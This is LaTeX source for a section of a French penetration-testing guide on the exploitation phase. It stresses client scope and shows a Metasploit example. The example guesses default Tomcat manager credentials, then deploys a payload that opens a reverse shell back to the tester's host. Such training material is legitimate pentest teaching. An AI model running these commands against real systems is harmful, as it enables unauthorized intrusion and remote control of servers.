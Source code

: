 \documentclass[twoside,a4paper,12pt,titlepage]{book}
\newcommand{\MarginPar}[2]{\marginnote{\scriptsize #1}[#2]}
\begin{document}
\begin{Warning}Cette phase reste avant tout une phase de recherche, elle ne doit pas servir de phase d'exploitation.\end{Warning}
\subsection{Usage}
\begin{Define}{TIE@Test d'intrusion externe!Usage}
	La phase d'exploitation est l'aboutissement d'une phase de recherche avancée. Elle doit se conformer aux exigences du client et ainsi exclure - selon la volonté du client - les tests destructifs ou incapacitants. Le consultant doit faire attention à ce que le métier client soit le moins impacté possible.
\end{Define}
\begin{Warning}Lors de l'exploitation des vulnérabilités, le consultant peut être amené à découvrir de nouvelles cibles, il doit alors retourner à la première phase du pentest pour redéfinir son périmètre et le faire progresser.\end{Warning}
\begin{FlagConsole}{Utilisation de Metasploit dans un cycle découverte/exploitation}
	Cette commande essaye de déterminer les utilisateurs d'un tomcat par l'utilisation des mots de passe par défaut. On suppose pour l'exemple que les identifiants tomcat/tomcat se sont révélés corrects.\\
	\\
	[tomcat\_mgr\_login]{set RHOSTS 192.168.1.1}\\
	[tomcat\_mgr\_login]{set RPORT 8080}\\
	[tomcat\_mgr\_login]{exploit}\\
	\tcblower
	\\
	[tomcat\_mgr\_deploy]{set USERNAME tomcat}\\
	\MarginPar{\textbf{Metasploit}}{0cm}[tomcat\_mgr\_deploy]{set PASSWORD tomcat}\\
	[tomcat\_mgr\_deploy]{set RPORT 8080}\\
	 \\
	Il est possible de rajouter un payload pour l'exploitation pratique de la vulnérabilité.\\Cette commande ouvre un meterpreter si l'exécution s'effectue correctement ce qui permet de continuer à exploiter le système.\\
	[tomcat\_mgr\_deploy]{set payload linux/x86/shell_reverse_tcp}\\
	[tomcat\_mgr\_deploy]{set RHOST 192.168.1.1}\\
	[tomcat\_mgr\_deploy]{set LHOST 192.168.1.2}\\
	[tomcat\_mgr\_deploy]{exploit}\\	
\end{FlagConsole}
\end{document}
